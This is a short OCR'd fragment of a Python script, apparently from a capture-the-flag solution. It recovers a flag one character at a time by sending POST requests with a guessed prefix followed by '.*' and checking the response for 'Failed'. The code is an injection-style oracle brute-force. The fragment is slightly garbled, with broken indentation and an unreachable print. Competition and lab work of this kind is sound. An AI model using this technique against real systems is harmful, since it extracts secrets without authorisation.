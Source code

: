 		print("Starting printing flag")  

		for r in range(39):  
			for i in alphabates:  
				postdata = mydata+flag+i+'.*'  
				#print(postdata)  
				res=requests.post(url,headers=headers,data = postdata,proxies=proxy)  
				checkresp = re.search('Failed',res.text)  
				if (checkresp):  
				#print('wrong')  
					pass  
				else:  
					flag=flag+i  
					print(flag,end='\r')  
					break  
					print(flag+'\}')  
	  
	if __name__ == '__main__':  
		main()
	```
